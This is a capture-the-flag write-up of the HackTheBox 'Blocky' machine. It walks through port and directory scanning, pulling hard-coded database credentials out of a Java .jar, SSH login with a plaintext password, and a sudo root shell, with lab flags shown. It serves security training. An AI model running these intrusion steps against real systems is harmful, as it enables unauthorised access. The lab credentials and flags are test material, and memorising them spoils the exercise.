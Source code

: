 ```yaml
---
title: "HTB Walkthrough: Blocky"
date: 2023-03-06T22:46:30-04:00 
categories:
  - HackTheBox
header:
  teaser: /assets/images/HTB/blocky/Blocky.png
tags:
  - Easy
  - Linux Host
  - Wordpress
  - Java
  - SQL
  - phpMyAdmin
  - Hard-coded Credentials
  - SUID Exploitation
---
```


![Blocky Logo](/assets/images/HTB/blocky/Blocky.png)  

---  

## Enumeration  


### Port Scanning  

Running our portscan with NMap comes back kind of juicy. We notice an outdated FTP server on port 21, OpenSSH on port 22, an Apache webserver on port 80, and a minecraft server on port 25565.  


```bash
sudo nmap -sS -T5 -A -sV -p- 10.10.10.37 | tee nmap_full.log

PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d62b99b4d5e753ce2bfcb5d79d79fba2 (RSA)
|   256 5d7f389570c9beac67a01e86e7978403 (ECDSA)
|_  256 09d5c204951a90ef87562597df837067 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Aggressive OS guesses: Linux 3.10 - 4.11 (94%), Linux 3.13 (94%), Linux 3.13 or 4.2 (94%), Linux 4.2 (94%), Linux 4.
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```  

### Directory Scanning  

After discovering port 80 open, I launched a directory buster against blocky.htb which returned quite a few results:  

```bash
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://blocky.htb/FUZZ | tee ffuf.log

wiki                    [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 96ms]
wp-content              [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 96ms]
plugins                 [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 102ms]
wp-includes             [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 97ms]
javascript              [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 98ms]
wp-admin                [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 109ms]
phpmyadmin              [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 101ms]
server-status           [Status: 403, Size: 298, Words: 22, Lines: 12, Duration: 96ms]
```  

### WPScan  

Since we detected WordPress running on this webserver (wp-content and wp-includes in the directory scan indicate this), I ran wpscan:  

```bash
wpscan http://blocky.htb/
```  

This returned some information about plugins, themes and the wordpress version, but I did not use it to exploit this machine.  

### Manual Web Browser Inspection  

Navigating to 10.10.10.37:80 in our browser attempts to redirect to http://blocky.htb and fails. This means we need to add a new line to our /etc/hosts file.  

Add a line to the file that looks like this and save it:  

```bash
10.10.10.37    blocky.htb
```  

Now, when we refresh the page, we are presented with a blog-style Wordpress site and a Minecraft background:  

![Home](/assets/images/HTB/blocky/home.png)  

There is a broken comment section and a login portal, however, the only thing I really noted was that there is a comment from a developer named Notch on this page:  

![Notch](/assets/images/HTB/blocky/notch.png)  

Continuing with enumeration, I was quickly drawn to a web directory named /plugins/files/ which hosted two .jar files, which are executable Java file formats (one of them is named BlockyCore... wink wink machine name).  

![files](/assets/images/HTB/blocky/files.png)  

These seem suspiciously placed, and I downloaded them to inspect.  

After clicking these to download, I ran the following command to inflate them (as they are zipped) and view the contents:  

```bash
jar xvf ~/Downloads/BlockyCore.jar

jar xvf ~/Downloads/griefprevention-1.11.2-3.1.1.298.jar
```  

Navigating into their created folders, I find a suspicious file and run the *strings* command on it to print out any strings in the file.  

```bash
cd ~/Downloads/

ls

BlockyCore.jar  com  griefprevention-1.11.2-3.1.1.298.jar  mcmod.info  me  META-INF
```  

![Reading Jar Files](/assets/images/HTB/blocky/jar.png)  

We see information here for a SQL user login and what looks to be credentials... boom!  

## Exploitation  

### phpMyAdmin  

Initially my first thought was to go login to the phpMyAdmin portal that we enumerated earlier, and I did, as root user with the above credentials.  

Enumerating this database, we can see a user named Notch, again. But all of this was honestly extra work compared to the minimum you need to enumerate the next step.  

### FTP  

I ALSO logged into notch over FTP on port 21, and rooted around for a minute but this too, was unnecessary. Lastly, I logged into the computer remotely over SSH:  

```bash
ssh notch@10.10.10.37

The authenticity of host '10.10.10.37 (10.10.10.37)' can't be established.
ED25519 key fingerprint is SHA256:ZspC3hwRDEmd09Mn/ZlgKwCv8I8KDhl9Rt2Us0fZ0/8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.37' (ED25519) to the list of known hosts.
notch@10.10.10.37's password: 8YsqfCTnvxAUeduzjNSXe22

Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:16:08 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ whoami
notch
```  

Let's grab our user flag to satisfy HackTheBox!  

```bash
notch@Blocky:/home$ cd ~
notch@Blocky:~$ ls
minecraft  user.txt

notch@Blocky:~$ cat user.txt
422ba7d0c21bda0d538faca24985e41f
```  
 

## Post-Exploit Enumeration  

The first thing I always check for when logging in as a low-privileged user is suid assigned sudo commands.  

```bash
notch@Blocky:/home$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```  

This literally tells us that blocky can run all commands on this machine as the root user... too easy.  


## Privilege Escalation  

The escalation is as simple as running a bash shell with sudo. Let's grab our root flag.  

```bash
notch@Blocky:/home$ sudo /bin/bash
root@Blocky:/home# id
uid=0(root) gid=0(root) groups=0(root)

root@Blocky:/home# whoami
root

root@Blocky:/home# cat /root/root.txt
e52044f3d1312f80daaadab97193f930
```  

That's all for now, thanks for reading!  


